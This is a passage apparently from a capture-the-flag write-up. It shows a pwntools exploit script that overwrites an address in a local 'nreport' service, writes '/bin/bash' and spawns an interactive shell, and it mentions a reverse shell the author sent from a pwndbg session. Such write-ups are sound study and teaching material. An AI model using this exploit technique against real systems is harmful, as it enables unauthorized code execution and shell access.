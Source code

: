 ```python exploit.py

io = remote("127.0.0.1",9851)
#io = process("./nreport")

io.recvlines(2)
io.sendline(b'AAAAAAAAAAAAAs')
io.sendline(p64(0x4041a8))

create(b'A'*160)
edit(b'/bin/bash')
exit_1()
io.interactive()
```

For some reason after executing the python script I couldn't get output of the system commands, so I sent myself a reverse shell from the `pwndbg` interactive session:
![](images/image15.png)

